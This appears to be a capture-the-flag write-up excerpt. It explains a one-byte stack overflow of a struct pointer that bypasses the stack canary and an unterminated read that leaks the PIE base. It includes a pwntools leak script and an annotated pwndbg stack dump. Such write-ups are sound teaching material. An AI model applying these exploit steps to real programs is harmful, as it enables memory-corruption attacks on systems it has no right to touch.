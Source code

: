 * There is a `Struct` let's call it `Info` that has this structure:
  ```c
  struct Info {
    char name[0x10];
    char reason[0x100];
    long age;
    char specialty[0x10];
  };
  ```

  If the lowest byte of the structure address is rewritten due to a stack Buffer Overflow , the address will start to be overwritten from there. That means, the return address will be overwritten, skipping the stack canary.

* Since the `macro` read does not `nullify` the last byte, if we fill the buffer, we can leak the address after.

  ```python
  # Step 1: Send initial inputs to set up the exploit
  sla('> ', 'w3t')
  sla('> ', 'h4nds')
  sla('> ', '69')
  pl = 'w3th4nds' * 2
  sla('> ', pl)
  
  # Step 2: Leak PIE base address from the response
  r.recvuntil(pl)
  pie_leak = r.recvline().strip()
  e.address = u64(pie_leak.ljust(8, b'\x00')) - 0x1b50
  print(f'\r[*] Tries: {cnt} -> PIE base: {e.address:#04x}', end='', flush=False)
  ```

### Debugging 

```gdb
pwndbg> x/50gx 0x7fffffffdc10
0x7fffffffdc10:	0x0000000041414141	0x0000000000000000 // name
0x7fffffffdc20:	0x0000000042424242	0x0000000000000000 // reason
0x7fffffffdc30:	0x0000000000000000	0x0000000000000000
0x7fffffffdc40:	0x0000000000000000	0x0000000000000000
0x7fffffffdc50:	0x0000000000000000	0x0000000000000000
0x7fffffffdc60:	0x0000000000000000	0x0000000000000000
0x7fffffffdc70:	0x0000000000000000	0x0000000000000000
0x7fffffffdc80:	0x0000000000000000	0x0000000000000000
0x7fffffffdc90:	0x0000000000000000	0x0000000000000000
0x7fffffffdca0:	0x0000000000000000	0x0000000000000000
0x7fffffffdcb0:	0x0000000000000000	0x0000000000000000
0x7fffffffdcc0:	0x0000000000000000	0x0000000000000000
0x7fffffffdcd0:	0x0000000000000000	0x0000000000000000
0x7fffffffdce0:	0x0000000000000000	0x0000000000000000
0x7fffffffdcf0:	0x0000000000000000	0x0000000000000000
0x7fffffffdd00:	0x0000000000000000	0x0000000000000000
0x7fffffffdd10:	0x0000000000000000	0x0000000000000000
0x7fffffffdd20:	0x000000000000000b	0x0000000000004343 // age, specialty
0x7fffffffdd30:	0x0000000000000000	0x0000555555555b50 // leaked address
0x7fffffffdd40:	0x0000000000000000	0x00007fffffffdc10 // local variables
0x7fffffffdd50:	0x00007fffffffde50	0x69f4f0d93c406a00 // canary
0x7fffffffdd60:	0x0000000000000000	0x00007ffff7df9083 // ret address
0x7fffffffdd70:	0x0000000000000071	0x00007fffffffde58
0x7fffffffdd80:	0x00000001f7fbd7a0	0x0000555555555441
0x7fffffffdd90:	0x0000555555555b50	0x16790fe34929ead8
```
